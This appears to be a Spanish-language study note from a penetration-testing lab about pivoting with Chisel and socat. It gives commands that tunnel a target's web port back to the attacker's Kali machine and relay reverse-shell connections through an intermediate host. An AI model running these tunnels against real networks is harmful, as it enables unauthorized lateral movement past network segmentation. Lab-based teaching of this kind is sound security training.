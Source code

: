 #pivoting 
Tendremos el siguiente escenario:
![[Pasted image 20240615202048.png]]

Chisel es una herramienta de pivoting compatible tanto con máquinas Windows como Linux. Nos permite de forma muy cómoda prácticamente obtener las mismas funciones que SSH (en el aspecto de Port Forwarding).

Tenemos un repositorio oficial para descargar la herramienta:
```bash
https://github.com/jpillora/chisel/releases
```

![[Pasted image 20240615202101.png]]

![[Pasted image 20240615202106.png]]

Nos lo descargamos en nuestra máquina atacante:
![[Pasted image 20240615202118.png]]

![[Pasted image 20240615202122.png]]

Y ahora ejecutamos el servidor con chisel desde nuestra máquina kali para recibir las conexiones:
![[Pasted image 20240615202130.png]]

A continuación, ejecutamos el siguiente comando en la máquina intermedia para indicar que el puerto 80 de la máquina final se convierta en el puerto 5000 de mi máquina atacante:
```bash
./chisel client 192.168.0.37:1234 R:5000:10.10.10.11:80
```

![[Pasted image 20240615202146.png]]

Y entonces ahora nuestro localhost de la máquina kali por el puerto 5000 será el puerto 80 de la máquina final:
![[Pasted image 20240615202153.png]]

Ahora, si queremos conseguir una reverse shell, tenemos que utilizar socat, ya que nosotros podemos ver a la máquina metasploitable, pero sin embargo esta máquina no nos ve a nosotros, por lo que dentro de la máquina intermedia ejecutamos el siguiente comando:
```bash
socat tcp-l:443,fork,reuseaddr tcp:192.168.0.30:443
```
Y ahora ya podríamos efectuar cualquier ataque desde la máquina Kali y recibir la conexión desde la máquina final, pasando primero por el puerto 443 de la máquina ubuntu y luego enviando dicha conexión al puerto 443 de la máquina Kali.
